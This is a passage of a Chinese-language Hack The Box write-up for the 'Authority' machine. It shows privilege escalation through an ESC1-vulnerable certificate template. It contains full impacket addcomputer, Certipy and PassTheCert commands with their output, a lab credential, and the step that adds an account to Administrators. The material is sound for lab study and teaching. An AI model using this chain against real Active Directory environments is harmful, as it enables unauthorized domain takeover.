注意到漏洞模板其中的 `msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT`，即满足[ESC1](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1)的利用条件（CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT）。  
以及 `HTB\Domain Computers` 具有“Enrollment”权限。而我们当前的账户正好有将机器加入域的权限。如果我们新加入一个机器，便有机器账户，应该就可以利用这个模板？ 

#### impacket-addcomputer添加机器账户
 
搜了一下发现impacket有 `addcomputer.py` 可以直接添加机器账户。

有个小报错，不过确认了一下成功添加了机器账户。  
*（后来突然意识到账号处的域名不应该是“HTB”而是“authority.htb”……即凭据该用 `authority.htb/svc_ldap:lDaP_1n_th3_cle4r!`）*

kali运行命令添加机器账户（OU等具体配置是来自上面拦截的 `svc_ldap` LDAP明文凭据，随便弄个就与其保持一致了）：
```bash
└─$ /usr/share/doc/python3-impacket/examples/addcomputer.py -computer-name TEST$ -computer-pass qwerasdf -baseDN DC=authority,DC=htb -computer-group OU='Service Accounts',OU=CORP,DC=authority,DC=htb -dc-ip 10.10.11.222 HTB/svc_ldap:lDaP_1n_th3_cle4r! 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[!] No DC host set and 'HTB' doesn't look like a FQDN. DNS resolution of short names will probably fail.
[*] Successfully added machine account TEST$ with password qwerasdf.
```

目标机器确认：
```powershell
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> net group "Domain Computers"
Group name     Domain Computers
Comment        All workstations and servers joined to the domain

Members

-------------------------------------------------------------------------------
TEST$
The command completed successfully.
```

#### Abuse by Certipy

我们当前用户是 `svc_ldap`，而要利用的用户是我们自己添加的机器账户 `TEST$`。看了下Certify似乎只能用当前用户冒充其他用户（如管理员）。所以使用[hacktrick](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#abuse)上说的另一个工具：Certipy。

根据[github文档](https://github.com/ly4k/Certipy#installation)安装Certipy：`pip3 install certipy-ad`。  
加入PATH：`export PATH=~/.local/bin:$PATH`。

##### 小插曲：迷之报错

```bash
┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy req -u 'TEST$' -p 'qwerasdf' -ca AUTHORITY-CA -template 'CorpVPN' -upn administrator -dc-ip 10.10.11.222
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094800 - CERTSRV_E_UNSUPPORTED_CERT_TYPE - The requested certificate template is not supported by this CA.
[*] Request ID is 5
Would you like to save the private key? (y/N) 
[-] Failed to request certificate

                                                                                                         
┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy req -u 'TEST$' -p 'qwerasdf' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.10.11.222
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094800 - CERTSRV_E_UNSUPPORTED_CERT_TYPE - The requested certificate template is not supported by this CA.
[*] Request ID is 6
Would you like to save the private key? (y/N) y
[*] Saved private key to 6.key
[-] Failed to request certificate


┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy req -u 'TEST$' -p 'qwerasdf' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.10.11.222 -debug
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'authority.htb' at '10.10.11.222'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[-] Got error while trying to request certificate: code: 0x80094800 - CERTSRV_E_UNSUPPORTED_CERT_TYPE - The requested certificate template is not supported by this CA.
[*] Request ID is 7
Would you like to save the private key? (y/N) 
[-] Failed to request certificate
```

##### certipy请求证书

隔了两天接着打，突然可以了？？  
之前还以为是option的问题，不过试了下上回报错的两个命令现在都可以：
```bash
┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy req -u 'TEST$' -p 'qwerasdf' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.10.11.222 -debug
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'authority.htb' at '10.10.11.222'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 9
[*] Got certificate with multiple identifications
    UPN: 'administrator@authority.htb'
    DNS Host Name: 'authority.authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_authority.pfx'

┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy req -u 'TEST$' -p 'qwerasdf' -ca AUTHORITY-CA -template 'CorpVPN' -upn administrator -dc-ip 10.10.11.222 -debug
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 6
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

直接就获得pfx格式的证书了，执行后续步骤。不过两个证书都会报错 `KDC_ERR_PADATA_TYPE_NOSUPP`：
```bash
┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'authority.htb' -dc-ip 10.10.11.222
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)

┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy auth -pfx 'administrator_authority.pfx' -username 'administrator' -domain 'authority.htb' -dc-ip 10.10.11.222
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@authority.htb'
    [1] DNS Host Name: 'authority.authority.htb'
> 0
[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

##### KDC_ERR_PADATA_TYPE_NOSUPP

搜了一下这个报错，发现[这篇文章](https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d)提到了可以用 `PassTheCert` 进行LDAP认证。  
> If you run into a situation where you can enroll in a vulnerable certificate template but the resulting certificate fails for Kerberos authentication, you can try authenticating to LDAP via SChannel using something like PassTheCert. You will only have LDAP access, but this should be enough if you have a certificate stating you’re a domain admin.

### [PassTheCert](https://github.com/AlmondOffSec/PassTheCert)

根据其[github文档](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python)，从pfx中提取crt和key：
```bash
┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy cert -pfx administrator_authority.pfx -nokey -out user.crt
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'user.crt'
                                                                                                                    
┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy cert -pfx administrator_authority.pfx -nocert -out user.key
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Writing private key to 'user.key'
```

下载 `passthecert.py`，按照文档执行后成功获取admin权限的 `ldap-shell`：
```bash
┌──(kali㉿kali)-[~/HTB/Authority]
└─$ wget https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/main/Python/passthecert.py

┌──(kali㉿kali)-[~/HTB/Authority]
└─$ python3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain authority.htb -dc-ip 10.10.11.222
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Type help for list of commands

# add_user_to_group svc_ldap Administrators
Adding user: svc_ldap to group Administrators result: OK


*Evil-WinRM* PS C:\Users\svc_ldap\Documents> whoami /all

USER INFORMATION
----------------

User Name    SID
============ =============================================
htb\svc_ldap S-1-5-21-622327497-3269355298-2248959698-1601


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```


## flag: root

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/22/2023   3:53 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
c714（略）58d9
```

---

## 总结·后记

2023/07/22

……